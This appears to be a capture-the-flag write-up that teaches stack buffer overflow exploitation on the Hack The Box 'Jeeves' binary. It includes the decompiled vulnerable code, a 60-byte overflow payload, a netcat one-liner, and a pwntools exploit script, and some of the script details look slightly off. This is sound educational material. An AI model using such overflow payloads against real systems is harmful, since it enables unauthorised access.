 ```yaml
---
layout: single
title:  "Intro to Binary Exploitation: HTB Jeeves"
date:   2023-09-08 12:30:00 +0200
categories: ['Binary Exploitation']
classes: wide
toc: true
---
```

# Intro to Binary Exploitation: HTB Jeeves Writeup
Today we take on a simple binary exploitation challenge from Hack The Box. In this post we are going to solve the Jeeves Pwn challenge from the **Intro to Binary Exploitation** track.

## Running the program
We start off by running the program normally. We are given a prompt asking for our name.
```bash
$ ./jeeves 
Hello, good sir!
May I have your name? bytebl33d
Hello bytebl33d, hope you have a good day! 
```
The program subsequently prints a greeting message back to us. Based on this response alone, we can assume that our input is stored somewhere in a buffer.

## Examining the binary with Ghidra
Let's decompile the binary using Ghidra so that we can better understand its inner workings. After importing the binary we can analyze the `main` function:
```c
main(void){
  char input [44];
  int file;
  void *buffer;
  int check;
  
  check = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(input);
  printf("Hello %s, hope you have a good day!\n",input);
  if (check == 0x1337bab3) {
    buffer = malloc(0x100);
    file = open("flag.txt",0);
    read(file,buffer,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",buffer);
    close(file);
  }
  return 0;
}
```
The user input is stored inside the input buffer with a size of 44 bytes. We also see there is a `flag.txt` file that gets opened after the if-statement that verfifies if the `check` variable is equal to the value `0x1337bab3` (or in other words 'leetbabe'). However, this check is never going to succeed because the `check` variable is initialized in a different way. We therefore need to find out how to overwrite this variable on the stack. 

The assembly view in Ghidra shows this variable is given the hex value of `0xdeadc0d3` (since this is indeed just dead code).

![ghidra](/assets/images/binary-exploitation/ghidra.png)

## Examining the binary in GDB
Loading the binary into GDB and disassembling the `main` function we get the following output:
```as
$ gdb jeeves

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>: endbr64
   0x00000000000011ed <+4>: push   rbp
   0x00000000000011ee <+5>: mov    rbp,rsp
   0x00000000000011f1 <+8>: sub    rsp,0x40
   0x00000000000011f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00000000000011fc <+19>:    lea    rdi,[rip+0xe05]        # 0x2008
   0x0000000000001203 <+26>:    mov    eax,0x0
   0x0000000000001208 <+31>:    call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:    lea    rax,[rbp-0x40]
   0x0000000000001211 <+40>:    mov    rdi,rax
   0x0000000000001214 <+43>:    mov    eax,0x0
   0x0000000000001219 <+48>:    call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:    lea    rax,[rbp-0x40]
   0x0000000000001222 <+57>:    mov    rsi,rax
   0x0000000000001225 <+60>:    lea    rdi,[rip+0xe04]        # 0x2030
   0x000000000000122c <+67>:    mov    eax,0x0
   0x0000000000001231 <+72>:    call   0x10a0 <printf@plt>
```
Our task is to figure out how many bytes we have to overflow the buffer in order to overwrite the `check` variable. Lets's set a breakpoint right after the `gets` call and run the program (just enter some A's as our input):
```as
pwndbg> b *main+53
pwndbg> r

<SNIP>

*RBP  0x7fffffffdec0 ◂— 0x1
*RSP  0x7fffffffde80 ◂— 'AAAAAAAAAA'
*RIP  0x55555555521e (main+53) ◂— lea rax, [rbp - 0x40]
────────────────────────────────────[ DISASM / x86-64 / set emulate on ] ────────────────────────────────────────────────
 ► 0x55555555521e <main+53>     lea    rax, [rbp - 0x40]
   0x555555555222 <main+57>     mov    rsi, rax
   0x555555555225 <main+60>     lea    rdi, [rip + 0xe04]
   0x55555555522c <main+67>     mov    eax, 0
   0x555555555231 <main+72>     call   printf@plt              <printf@plt>
   0x555555555236 <main+77>     cmp    dword ptr [rbp - 4], 0x1337bab3
   0x55555555523d <main+84>     jne    main+191                <main+191>
   0x55555555523f <main+86>     mov    edi, 0x100
   0x555555555244 <main+91>     call   malloc@plt              <malloc@plt>
   0x555555555249 <main+96>     mov    qword ptr [rbp - 0x10], rax
   0x55555555524d <main+100>    mov    esi, 0
```
Looking at the RIP (Instruction Pointer) above, we can see that it is comparing `dword ptr [rbp - 4]` with `0x1337bab3`. Let's have a look at the value of `rbp-4` in GDB.
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0xdeadc0d3
```
To see what happens when we change this variable, we can try to change it using `pwndbg` and continue running the program. Pwndbg is just a handy GDB plug-in that makes debugging with GDB easier for reverse-engineering tasks.
```bash
pwndbg> set *0x7fffffffdebc = 0x1337bab3
pwndbg> x/x $rbp-4
0x7fffffffdebc: 0x1337bab3
pwndbg> c
Continuing.
Hello AAAAAAAAAA, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
[Inferior 1 (process 13162) exited normally]
```
Looking at the output we can see that if we are able to change the variable to `0x1337bab3`, we receive a small gift. This is probably the flag we are looking for.

## The Exploitation
Using python3 we can find the offset by generating a pattern and running the program with this input. To make our lifes a bit easier, we can do this with the `pwntools` package as follows:
```bash                                                                                            
pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
We run the program again with the created pattern and inspect `rbp-4`:
```bash
pwndbg> x/x $rbp-4 
0x7fffffffdebc: 0x61616170      # this is paaa in ASCII
```
We see that the variable now gets overwritting with `paaa`. Finding the offset is as easy as just using the `cyclic_find` function from `pwntools`:
```python
$ python3
>>> from pwn import *
>>> cyclic(100)
>>> cyclic_find('paaa')
>>> 60
```
So our final payload will be: `A*60 + 0x1337bab3`.

### Crafting our payload
Now we have all the information to craft our payload.
```python
from pwn import *

check = p64(0x1337bab3)
payload = b"A"*60 + check

print(payload)
```
Or we can run it directly in GDB to test our payload first:
```bash
pwndbg> r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13"')
```

## Executing our payload on the target
Here we will show 2 ways of executing our payload. The first method is a manual approach, while the other is a more automated way using `pwntools`.

### Method 1 (manual)
```bash
nc <IP_ADDRESS> <PORT> <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*60 + b"\xb3\xba\x37\x13")')
```

### Method 2 (pwntools)
```python
from pwn import *

target = process(b"nc")
target.sendline(b"<IP_ADDRESS> <PORT>")

payload = b"A"*60
payload += p64(0x1337bab3)

target.sendline(payload)

print(target.recvuntil(b"}"))
```
Runing our exploit code:
```bash
$ python3 exploit.py
[+] Starting local process '/usr/bin/nc': pid 20136
b"Cmd line: Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3*****************!}"
[*] Process '/usr/bin/nc' stopped with exit code 0 (pid 20136)
```
After running our exploit, we indeed get the flag back. We have successfully completed our first pwn challenge in the Intro to Binary Exploitation track.